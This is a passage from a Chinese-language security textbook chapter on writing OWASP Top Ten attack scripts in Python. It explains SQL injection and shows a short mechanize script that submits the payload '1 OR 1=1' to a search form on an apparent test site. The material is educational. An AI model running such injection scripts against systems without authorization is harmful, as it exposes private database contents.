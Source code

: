 # 第四章：使用 Python 进行攻击脚本编写

**开放式 Web 应用安全项目**（**OWASP**）十大是对最严重的网络应用安全风险的列表。在本章中，我们将讨论如何使用 Python 库编写 OWASP 十大攻击脚本：

+   注入

+   破坏的身份验证

+   跨站脚本（XSS）

+   不安全的直接对象引用

+   安全配置错误

+   敏感数据暴露

+   缺少功能级访问控制

+   CSRF 攻击

+   使用已知漏洞的组件

+   未经验证的重定向和转发

# 注入

SQL 注入是攻击者可能创建或更改 SQL 命令以披露数据库中的数据的方法。这对于接受用户输入并将其与静态参数结合以构建 SQL 查询而没有适当验证的应用程序非常有效。

同样，所有类型的注入攻击都可以通过操纵应用程序的输入数据来完成。使用 Python，我们可以向应用程序注入一些攻击向量，并分析输出以验证攻击的可能性。Mechanize 是一个非常有用的 Python 模块，用于浏览网页表单，它提供了一个具有状态的编程式网络浏览体验。

我们可以使用`mechanize`来提交表单并分析响应：

```py
import mechanize 
 # Import module 

# Set the URL 
url = "http://www.webscantest.com/datastore/search_by_id.php" 

request = mechanize.Browser() 

request.open(url) 

# Selected the first form in the page 
request.select_form(nr=0) 

# Set the Id  
request["id"] = "1 OR 1=1" 

# Submit the form 
response = request.submit() 

content = response.read() 

print content 

```
